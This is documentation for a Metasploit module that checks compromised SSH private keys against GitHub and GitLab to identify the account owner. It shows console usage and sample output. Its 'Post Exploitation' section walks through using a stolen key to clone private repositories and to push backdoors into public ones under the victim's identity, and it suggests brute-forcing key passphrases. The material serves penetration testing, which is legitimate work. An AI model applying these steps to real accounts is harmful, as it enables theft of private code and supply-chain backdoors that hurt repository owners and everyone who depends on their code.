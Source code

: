## Introduction

This module attempts to authenticate to Git servers using compromised SSH private keys. This module can be used to check a single key or recursively look through a directory. It will not attempt to check keys that have a passphrase, however a bruteforce attack could be launched on a key and then the passphrase could be disabled.

## Setup

1. `ssh-keygen -b 2048 -t rsa`
2. Add the RSA pubic key to a GitHub or GitLab account (Public ends in .pub)
3. Follow the usage instructions below
4. Either use KEY_FILE or KEY_DIR to specify the generated SSH private key
5. Run the module
6. Observe that it will identify the GitHub/GitLab user that this key belongs to

## Usage

```
msf > use auxiliary/scanner/ssh/ssh_enum_git_keys
msf auxiliary(scanner/ssh/ssh_enum_git_keys) > set KEY_DIR /Users/w/.ssh
KEY_DIR => /Users/w/.ssh
msf auxiliary(scanner/ssh/ssh_enum_git_keys) > run

Git Access Data
===============

Key Location              User Access
------------              -----------
/Users/w/.ssh/id_ed25519  wdahlenburg

[*] Auxiliary module execution completed
```
## Post Exploitation

Once you have identified a Git user from an SSH key, there are two immediate possibilities.

1. Download private repositories that the owner knows
2. Modify public repositories and inject a backdoor

To begin either, the valid keys will need to be added to the current `~/.ssh/config`.

Example: Using a valid key at /Users/w/.ssh/id_ed25519

1. Write the following to `~/.ssh/config`
`Host github
    User git
    Hostname github.com
    PreferredAuthentications publickey
    IdentityFile /Users/w/.ssh/id_ed25519
    `
2. Clone a repo using the key
` $ git clone github:<username>/Repo.git`
3. Alternatively, modify an existing local repo by modifying the .git/config file
```
...
[remote "origin"]
    url = github:username/reponame.git
...

```
4. Any changes will be pushed using the specified key. Make sure you set the git aliases to match your target.
